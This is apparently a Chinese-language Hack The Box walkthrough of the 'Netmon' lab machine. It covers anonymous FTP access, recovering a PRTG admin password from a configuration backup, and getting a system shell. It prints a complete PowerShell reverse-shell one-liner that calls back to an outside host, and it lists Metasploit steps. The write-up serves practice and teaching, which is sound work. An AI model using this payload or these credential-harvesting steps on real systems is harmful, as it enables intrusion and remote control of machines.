






# Hack the box - Netmon

## User Flag

获取user flag还是比较简单的。首先，例行公事，用nmap扫描靶机。



注意到靶机的FTP是允许anonymous登录的，我们这时可以使用匿名账号登陆。当提示输入password时，直接按enter就行。然后cd到Users文件夹，user flag就在里面，用more指令就可以看到文件内容了。

.PNG>)

接下来我们遇到了一个问题，作为FTP用户，我们无法访问Aministrator文件夹，而system flag很有可能就在这个文件夹里面。

.PNG>)

## System Flag

我们现在需要找新的方法进入系统。扫描靶机的TCP/80端口，我们会发现靶机80端口上运行的服务是Indy httpd 18.1.37.13946&#x20;

.PNG>)

搜索一下这个软件，我们会发现这个软件允许Remote code execution 因为没有足够的input sanitation



现在我们输入http://10.10.10.152 到浏览器的URL，登录账户需要密码。首先我们试试输入用户名 prtgadmin，和密码prtgadmin，也就是这个服务器的默认管理员账户，但系统并不接受这个密码。

现在我们可以FTP登录靶机系统，我们可以通过查看PRTG配置文件的方式查看密码。为了方便查看文件，我们先用wget -m ftp://10.10.10.152/ProgramData/Paessler下载配置文件。



然后就在Configuration.old.bak 文件里，我们可以找到用户prtgadmin以前的密码 PrTg@dmin2018 。截图中的 grep -A 2 prtgadmin 指令可以让grep显示下面两行的内容。



输入PrTg@dmin2018是不可以进入的，这时候我们就需要猜一猜了。这个靶机的创造时间是2019年，所以我们把2018换成2019。然后我们就得到了账户密码，用户名是 **prtgadmin**，密码是**PrTg@dmin2019**



恭喜，你进入了服务器内部。但是离获取系统权限还有距离。

获取系统权限有两种方法，一种比较简单，一种比较复杂，我们先讲简单的。

## 方法1



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" %}

这里要先感谢David Hamann在自己的blog里提供的方法，非常简单。简单来说，David使用了服务器中remote code execution漏洞，用power shell建立了reverse shell。

```
"$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

David很明显成功了，但我不知道是怎么成功的。因为根据最先发现服务器漏洞的人，特殊符号 `' " >` 被过滤了。David使用的power shell指令是不太可能被执行成功的。

## 方法2

在kali linux上，输入`msfconsole`开启metasploit framework。然后使用use prtg指令。用`set admin_password PrTg@dmin2019` 来设置模组中的管理员密码。用 `set rhost 10.10.10.152` 设置靶机地址。用`set lhost <本机IP>` 设置本机地址。用`run`执行模组然后就就获得shell了。&#x20;








